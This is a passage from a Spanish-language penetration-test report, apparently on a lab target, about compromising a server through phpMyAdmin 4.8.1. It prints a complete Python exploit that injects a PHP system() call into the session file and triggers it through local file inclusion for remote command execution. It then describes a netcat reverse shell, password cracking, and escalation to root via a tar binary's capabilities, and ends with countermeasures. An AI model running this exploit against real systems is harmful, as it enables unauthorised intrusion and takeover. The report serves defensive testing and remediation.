    \fbox{
\includegraphics[width=16cm]{./ataccking/exploits.png}}
    \caption{Exploits de pruebas de conecpto}
    \label{fig: Identifiedsubdomains}
  \end{center}
\end{figure}

\vspace{0.2cm}

Entre ellas, una de la cuál puede permitir a un atacante malintencionado \textbf{ejecutar código remoto}
en el servidor.

\clearpage

A continuación se comparte la prueba de concepto del script creado en \textbf{python3}
el cuál fue empleado para ejecutar comandos remotos en el servidor.


%%---------Código de python----------------------
\begin{lstlisting}[language=Python, caption={Exploit para la versión vulnerable de PhpMyAdmin}]

  import re, requests, sys, html
  
  if len(sys.argv) < 4:
    usage = """Usage: {} [route/ip] [username] [password] [command]
  Example: {} 192.168.56.65 8080 /phpmyadmin username password whoami"""
    print(usage.format(sys.argv[0],sys.argv[0]))
    exit()
  
  def get_token(content):
    s = re.search('token"\s*value="(.*?)"', content)
    token = html.unescape(s.group(1))
    return token
  
  ipaddr = sys.argv[1]
  username = sys.argv[2]
  password = sys.argv[3]
  command = sys.argv[4]
  
  url = "http://{}".format(ipaddr)
  
  url1 = url + "/index.php"
  r = requests.get(url1)
  content = r.content.decode('utf-8')
  
  s = re.search('PMA_VERSION:"(\d+\.\d+\.\d+)"', content)
  version = s.group(1)
  
  cookies = r.cookies
  token = get_token(content)
  
  p = {'token': token, 'pma_username': username, 'pma_password': password}
  r = requests.post(url1, cookies = cookies, data = p)
  content = r.content.decode('utf-8')
  s = re.search('logged_in:(\w+),', content)
  logged_in = s.group(1)
  
  
  cookies = r.cookies
  token = get_token(content)
  
  url2 = url + "/import.php"
  payload = '''select '<?php system("{}") ?>';'''.format(command)
  p = {'table':'', 'token': token, 'sql_query': payload }
  r = requests.post(url2, cookies = cookies, data = p)
  
  session_id = cookies.get_dict()['phpMyAdmin']
  url3 = url + "/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_{}".format(session_id)
  r = requests.get(url3, cookies = cookies)
  
  content = r.content.decode('utf-8', errors="replace")
  s = re.search("select '(.*?)\n'", content, re.DOTALL)
  
  print(s.group(1))
  
\end{lstlisting}

\clearpage

Utilizando la herramienta \textbf{Netcat} dejamos un listener atendiendo el puerto \textbf{556}

\begin{figure}[H]
  \centering
  \setlength{\fboxrule}{0.8pt}
  \fbox{
\includegraphics[width=15cm]{ataccking/listener.png}}
  \caption{Listener a la escucha del puerto 556 del atacante}
\end{figure}

\begin{figure}[H]
  \centering
  \setlength{\fboxrule}{0.8pt}
  \fbox{
\includegraphics[width=15cm]{ataccking/reverse.png}}
  \caption{Ejecución del script con sus respectivos parámetros}
\end{figure}

\vspace{0.4cm}
Una vez ejecutado e inyectado un comando que permitiera ingresar al sistema, obtuvimos acceso al servidor como el usuario
\textbf{Apache}
\vspace{0.4cm}

\begin{figure}[H]
  \centering
  \setlength{\fboxrule}{0.8pt}
  \fbox{
\includegraphics[width=15cm]{ataccking/access.png}}
\end{figure}

\clearpage

Tal y como se puede apreciar en el script, lo que sucede es que se aprovecha de una vulnerabilidad que permite inyectar
código php en el archivo de sesión de usuario que guarda el servidor en la ruta \par
\textbf{\//var\//lib\//php\//sessions\//sess\_sesionid}.\par

El \textbf{sessionid} corresponde al identificador de sesión del usuario guardado en la cookie \textbf{phpMyAdmin} y debido a 
que tenemos acceso a esa ruta desde el navegador y mediante un Local File inclusion podemos abrir el archvo,
al hacerlo se ejecuta el script de php inyectado.\par
La forma en la que se inyecta el script es mediante el panel de consultas de \textbf{SQL} 
en este caso el LFI deriva a un RCE (Remote Command Execution)

\begin{figure}[H]
  \centering
  \setlength{\fboxrule}{0.8pt}
  \fbox{
\includegraphics[width=\textwidth]{ataccking/RCE.png}}
  \caption{Inyección de comandos a través de la consulta SQL}
\end{figure}

\vspace{0.3cm}
\begin{definicion}
  LFI (Local File inclusion), es una vulnerabilidad de seguridad de aplicaciones web que permite que un atacante pueda
  acceder a archivos locales del servidor a través de la inclusión de los mismos en una determinada página web.
\end{definicion}

\vspace{0.3cm}
\begin{definicion}
  RCE (Remote Command Execution), es una vulnerabilidad de seguridad de aplicaciones web que permite que un atacante pueda
  ejecutar comandos en un servidor de forma remota.
\end{definicion}

\clearpage

%----------------------------------------------------------------------------%
%------------ Escaladas de privilegios --------------%
%----------------------------------------------------------------------------
\section{Escalada de privilegios}
\subsection{Usuario apache}
Mediante el Remote Command Execution conseguimos acceso como el usuario apache, 
pero viendo los usuarios del sistema hay uno llamado admin, al igual que en los
registros de la base de datos comprometida anteriormente.

\begin{figure}[H]
  \centering
  \setlength{\fboxrule}{0.8pt}
  \fbox{
\includegraphics[width=\textwidth]{ataccking/passdb.png}}
  \caption{Usuario admin y su contraseña}
\end{figure}
\vspace{0.4cm}

Utilizando la herramienta \textbf{john} y el diccionario \textbf{rockyou} pudimos
descifrar la contraseña

\begin{figure}[H]
  \centering
  \setlength{\fboxrule}{0.8pt}
  \fbox{
\includegraphics[width=\textwidth]{ataccking/descpass.png}}
  \caption{Descifrado por diccionario}
\end{figure}
\vspace{0.4cm}

Al probar conectarnos por ssh al usuario \textbf{admin} al puerto \textbf{2082}
\vspace{0.4cm}

\begin{figure}[H]
  \centering
  \setlength{\fboxrule}{0.8pt}
  \fbox{
\includegraphics[width=\textwidth]{ataccking/caps.png}}
  \caption{Búsqueda de capabilities}
\end{figure}
\vspace{0.4cm}

Buscando por capabilities del sistema encontramos que el binario \textbf{tarS}
tiene una capabilitie que le permite leer archivos privilegiados. Este binario
es igual que \textbf{tar} el cual permite comprimir y descomprimir archivos pero con la
capabilitie asignada. \par
Debido a esto fue posible comprimir toda el directorio del usuario \textbf{root}
y al descomprimirlo ver el contenido de sus archivos incluyendo las claves ssh
\vspace{0.4cm}
\begin{figure}[H]
  \centering
  \setlength{\fboxrule}{0.8pt}
  \fbox{
\includegraphics[width=\textwidth]{ataccking/compress.png}}
  \caption{Compresion de /root/}
\end{figure}
\vspace{0.4cm}
\begin{figure}[H]
  \centering
  \setlength{\fboxrule}{0.8pt}
  \fbox{
\includegraphics[width=\textwidth]{ataccking/rootfiles.png}}
  \caption{Archivos root clonados}
\end{figure}
\vspace{0.4cm}

Dentro de \textbf{.ssh} podemos acceder a la \textbf{id\_rsa} del usuario root y
debido a que la utiliza como clave de identidad, al copiarnos su clave a nuestra
clave de usuario podemos ganar acceso por ssh sin proporcionar contraseña.
\vspace{0.4cm}
\begin{figure}[H]
  \centering
  \setlength{\fboxrule}{0.8pt}
  \fbox{
\includegraphics[width=\textwidth]{ataccking/rootaccess.png}}
  \caption{Acceso como el usuario root por ssh}
\end{figure}
\vspace{0.4cm}

\clearpage


%----------------------------------------------------------------------------%
%------------ Contramedidas y buenas prácticas --------------%
%----------------------------------------------------------------------------
\section{Contramedidas y buenas prácticas}
Con el objetivo de evitar posibles explotaciones e intrusiones en el servidor expuesto, se enumeran a continuación las
buenas prácticas a llevar a cabo para las diferentes vulnerabilidades descubiertas.


%------------ Contramedidas phpmyadmin --------------%
\subsection{PhpMyAdmin 4.8.1 vulnerable}

PhpMyAdmin es una herramienta popular para administrar bases de datos MySQL a través de una interfaz web, 
sin embargo la versión 4.8.1 de PhpMyAdmin, tiene una vulnerabilidad conocida que puede permitir a un atacante
ejecutar código arbitrario en el servidor web dónde esta alojado.

Para correjir esta vulnerabilidad, es necesario actualizar a la versión mas reciente de phpMyAdmin.
Si por alguna razón no es posible actualizar a la última versión se pueden tomar algunas medidas para mitigar
el riesgo de explotación.

\begin{itemize}
  \item Eliminar el archivo \textbf{config.php.bak} que expone las credenciales de acceso a la base de datos
  \item Corregir el código del script '\textbf{index.php}' en \//var\//www\//phpmyadmin para que la variable '\textbf{target}' proporcionada por
  el usuario esté bien controlada.
\end{itemize}

\vspace{0.4cm}

\begin{figure}[H]
  \centering
  \setlength{\fboxrule}{0.8pt}
  \fbox{
\includegraphics[width=\textwidth]{ataccking/index.png}}
  \caption{Código vulnerable del index.php}
\end{figure}

\begin{itemize}
  \item En lugar de definir que el usuario especifique cualquier archivo que desee
  incluir, definir una lista de archivos permitidos y validar que el valor pasado al
  parámetro \textbf{target} esté en la lista antes de aplicar la inclusión del archivo.
  \item Administrar las capabilities del archivo \textbf{tarS} para que no pueda leer
  archivos privilegiados del sistema
\end{itemize}

\clearpage

\subsection{Conclusiones}
Se han detectado \textbf{vulnerabilidades críticas} que pueden suponer un riesgo
desde el punto de vista de la seguridad. Han sido encontradas vulnerabilidades las cuales
permiten vulnerar la integridad del servidor, consiguiendo acceso al mismo como el usuario
'\textbf{apache}'.

Esto ha sido posible debido a una versión vulnerable de phpMyAdmin en uno de los subdominios
(votenow.local) identificados durante la etapa de reconocimiento.
El acceso al panel de autenticación de phpMyAdmin fue posible debido a la exposición de un archivo de
backup en la ruta \textbf{/config.php.bak} sin utilizar subdominios.

Se recomienda encarecidamente aplicar las contramedidas recomendadas para corregir estas
vulnerabilidades lo antes posibles, dado de lo contrario se podría comprometer la integridad
del servidor, poniendo en peligro los datos almacenados en este.
\end{document}


%Espacio horizontal
%\quad 

% Enumeración con puntos
% \begin{itemize}
%    \item contenido1 
%    \item contenido2
%    \item contenido3
%\end{itemize}

    
% Negrita  \textbf{Informe técnico}

%Tamaño de texto LARGE
%{\scshape\LARGE   Informe  técnico}


%Espacio vertical \varspace{1cm}   %un centimetro

%Salto de linea \par

%crear imagen    
%
\includegraphics[width=0.8\paperwidth]{./vuln.png}

% Crear caja que se ajuste al paperwidth y su contenido tambien (imagen) 
%\makebox[\textwidth]{
\includegraphics[width=0.8\paperwidth]{./vuln.png}}